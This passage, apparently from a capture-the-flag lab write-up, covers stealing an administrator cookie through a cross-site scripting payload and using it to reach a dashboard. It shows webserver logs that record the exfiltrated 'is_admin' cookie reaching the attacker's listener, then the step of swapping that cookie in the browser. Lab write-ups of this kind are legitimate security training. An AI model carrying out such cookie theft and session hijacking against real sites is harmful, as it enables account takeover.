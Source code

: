 ![image-20240711145941904](../img/image-20240711145941904.png)

With the Response in Render, it actually triggers and hits my webserver:

    
    
    10.10.14.6 - - [11/Jul/2024 14:56:48] "GET /?c= HTTP/1.1" 200 -
    

It doesn’t have a cookie, so that’s blank. Less than a minute later, there are
more connections from Headless:

    
    
    10.10.11.8 - - [11/Jul/2024 14:57:30] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
    10.10.11.8 - - [11/Jul/2024 14:57:33] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
    10.10.11.8 - - [11/Jul/2024 14:57:35] "GET /?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
    

#### Access Dashboard

I’ll go into the Firefox dev tools, Storage tab, and replace my cookie with
this value:

![image-20240711150158243](../img/image-20240711150158243.png)
